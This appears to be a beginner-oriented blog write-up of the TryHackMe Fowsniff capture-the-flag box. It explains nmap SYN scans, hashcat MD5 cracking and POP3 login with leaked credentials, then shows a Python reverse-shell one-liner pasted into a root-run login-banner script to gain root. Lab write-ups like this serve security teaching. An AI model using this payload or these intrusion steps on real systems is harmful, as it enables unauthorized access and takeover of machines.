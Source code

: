 ```yaml
---
layout: post
title: TryHackMe | Fowsniff CTF
tags: [ctf, boot2root, beginner]
---
```


I recently did a classic boot2root box off TryHackMe made by [@berzerk0](https://twitter.com/berzerk0). After completing it, I thought it would be a great opportunity to talk about some 101 level stuff instead of diving into explaining a four-hour-long HackTheBox Hard. Hopefully, this helps answer some questions people might have been too afraid to ask.

-----

### Initial Recon and Some Networking 101

Without breaking down every level of the OSI model here, let's talk about TCP for a second before getting into Nmap commands. The *Transmission Control Protocol* sits between the lower-level physical and IP layers and the higher-level layers. Beyond providing error checking and handling of packets, it also provides a further abstraction of a network connection to an application as well by including a source and destination port in each of its segments. TCP is also a connection-oriented protocol, meaning that a connection must be established between a client and a server before data can be sent.

This connection establishment phase, referred to as the **three-way handshake**, is incredibly important for a lot of Nmap's basic functionality. The three-way handshake first consists of a client sending a TCP packet with a SYN flag to the server. If the target port is open, the server will send a packet back with a SYN/ACK flag. Now with a normal TCP connection like the one your computer makes to communicate with the HTTP server running this website, at this point the client responds back with a packet with a ACK flag in order to establish the connection. The connection at this point then has to be terminated, which involves a separate handshake. 

Nmap's SYN scan avoids this second handshake by having the client respond to the server with a packet with a RST flag. Now if the target port is closed, the server responds to the initial SYN flag with a RST flag. If it's filtered, the server won't respond to the inital SYN at all. Now that we have a basic understanding of TCP and most importantly the connection establishment part of the protocol, let's dive into the fun stuff. 

Like every CTF, the first thing I did after getting my target machine's IP address was run an `nmap` scan. Nmap is a network scanner that allows us to identify hosts, find open ports on hosts, and even find some important characteristics on hosts like operating system or network service details. This is by no means an exhaustive list of nmap's capabilities but for this walkthrough we'll focus on its port discovery and service discovery capabilities. With our target IP, I ran my run this initial (and only) scan:

```bash
> nmap [target-ip] -sV -O
```

Let's break this command down and talk about what I'm actually doing here. Because we haven't specified which type of scan we want to run, by default we are executing a TCP SYN scan against our target against the first 1000 ports. A TCP SYN scan works by sending a TCP packet with the SYN flag set to each port where three outcomes are possible:

* If the port is open, the target host will send a response with the SYN and ACK flags back, which our host will then respond to with a TCP packet with a RST flag. The reason it responds with RST instead of completing the three-way handshake is that because the target host has sent a SYN / ACK response, we know the port is open and we do not want to have to complete another three-way handshake to close the connection. 

* If the port is closed, the target host will respond back with a TCP packet with a RST flag. 

* If the port is filtered, the target host won't respond back with anything, which can mean a lot of things, but usually means the port is behind a firewall or the host is down. 


The `-sV` flag in our command attempts to determine the version of the service running on each open port and the `-O` flag attempts to determine identify what operating system is running on the host. This information can be very valuable when it comes to the later stages of enumeration, exploitation, and even privilege escalation. Building up as much information during the active reconaissance stage helps us down the road when we start the enumeration process and even privilege escalation upon initial access once inside the target. 

Nmap responded back with this scan report: 

```bash
Nmap scan report for [target-ip]
Host is up (0.22s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3    Dovecot pop3d
143/tcp open  imap    Dovecot imapd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Port 80 Is Always a Gold Mine (Well Not Really But It's Always Good To Check)


My initial reaction upon seeing the Nmap scan results was to go to my browser and type in the target IP address into the searchbar. Why? Because port 80, a port reserved for http, the protocol that makes most of the seeable Internet just werk, was open with potentially even an Apache http server running. Lo and behold, there was a company website live with a notice, saying that they recently had a data breach and that their company twitter was defaced by some *not-so-nice* hackers.

![Company Website](/assets/fowsniff-ctf-assets/website.png)

After thanking my friends for doing the hard work, I went to their twitter page and found a link to a pastebin with some interesting text files.

![Defaced Company Twitter](/assets/fowsniff-ctf-assets/company-twitter.png)

### Intro to Hashing / Cracking Bad Passwords with hashcat

After glancing at the pastebin, I immediately realized what the text file gave me. It contained the password hashes and usernames of several users on this company network. Let's break down cryptographic hash functions, conceptually and then also through an actual algorithm before busting out the terminal. A cryptographic hash function maps data of arbitary size to a bit array of a fixed size. Because it's a one way function, finding the input of a hash from the output alone usually requires a brute-force search of possible inputs. 

A practical application of this type of function is password verification amongs others. Because the storing of passwords on a system in clear text is a major security flaw, passwords are verified during authentication by comparing the hash of an input to the password hashes stored on the system. One of the popular hash algorithms in use today, despite its numerous vulnerabilities, is MD5. MD5 takes an input of arbitray length and produces an output of 128 bits represented by a sequence of 32 hexadecimal digits. MD5 is considered *cryptographically broken* and in our case, can be cracked in a couple seconds with a relatively small wordlist and good ol `hashcat`, a pretty cool password cracker with some awesome configuration settings.  

Back to our CTF, after seeing this wonderful pastebin of goodies, I copied them into a `txt` file and 
ran this command in my iTerm:
```bash
> hashcat -m 0 -a 0 -o cracked.txt hashes.txt ~/dev/wordlists/rockyou.txt
```

The `-m 0` flag here specifies what type of hash were cracking (in this case MD5) while `-a 0` specifies that we are using a simple wordlist based attack. The `-o cracked.txt` specifies that we are to output the results to a new textfile named `cracked.txt` while the second textfile contains the actual hashes themselves. The third file `rockyou.txt` is the wordlist we are using to bruteforce the passwords. After running the command I got this output of eight recovered passwords:

![Cracked Passwords](/assets/fowsniff-ctf-assets/cracked-hashes.png)

### Enumerating POP3 and Gaining Initial Access

After unsuccesfully trying to login over ssh with the cracked passwords and remembering from my initial nmap scan that the host had a email server up and running, I attempted to connect to the server by typing in `telnet 110` to see if I could get find anything interesting. One of the protocols required for a mail server to function is POP3, which is for clients to retrieve emails from an email server. While your email application usually does this for you, you can actually connect to a server manually to retrieve messages by logging in over telnet and specifying POP3's standard port `110`. Upon setting up a POP3 session, I logged into a couple user mailboxes with the cracked passwords and the `USER` command until I found a mailbox with an interesting email: 

![Email with plaintext ssh password](/assets/fowsniff-ctf-assets/bad-email.png)

Thank you AJ, the most likely overworked sys-admin, for leaving your email server open to the public and keeping an ssh password in plaintext on there.


### From `user` to `root` (Privilege Escalation Basics)

Before we go over the simple privilege escalation trick I used to get a `root` shell, let's go over some basic Linux concepts regarding users, groups, and their respective permissions. With Linux, users are individual accounts with their own file permissions that are tied to groups, which also have their own file permissions. File permissions are based off reading, writing, and executing. The standard format for file and directory permissions starts with a `rwx` block, representing the file permissions for the file owner, a second `rwx` block for the permissions the group owner, and by extension anyone within that group, has, and a final `rwx` block for all other users. If a certain block has a dash in place of a character, the users within that block do not have the permissions to carry out that action. We can use this information to figure out what we can write or run within our group. 

After using the gift above to get a shell on the host, I started doing some basic privilege escalation enumeration to see what privileges I had. After getting information about the operating system itself, I checked what groups I belonged to by running `groups` in my shell. Seeing that I belonged to a `users` group, I then ran the `find` command to find all files that belonged to my group:

```bash
find / -group users -type f  2>/dev/null
```

The first file that appeared was a shell script called `cube.sh` used for printing the login banner. Since I knew the file was writeable from running `ls -l` and I knew that the script was executed as root from a file in `/etc/update-motd.d` I opened up `cube.sh` with `nano` and pasted in a Python reverse shell:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<myIP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

A *reverse shell* per the name is a shell that is initiated from the remote host instead of the local host. The local host instead listens for incoming network connections on the port specified. One part of reverse shells that are especially helpful is that you can assign common listener ports like 80 or 443 instead of ports that most likely are blocked by firewall. In this case, I used port 1234 as my listener port and ran `ncat -lvp 1234` on my localhost. The final step was executing the shell script we modified. Since that script is run every time a user ssh's onto the target host, I just logged in one more time as my low level user and checked my netcat listener in my other iTerm tab:

![Reverse Shell](/assets/fowsniff-ctf-assets/reverse-shell.png)

*N i c e*.

### Closing Thoughts

Overall, this was a pretty simple box but I'm taking a great web application security workshop by F-Secure right now and wanted to do a detailed writeup for people new to offensive security. I also liked that instead of running searchsploit over and over again it was instead just abusing really bad configurations, which is a lot more realistic to what I find on engagements.


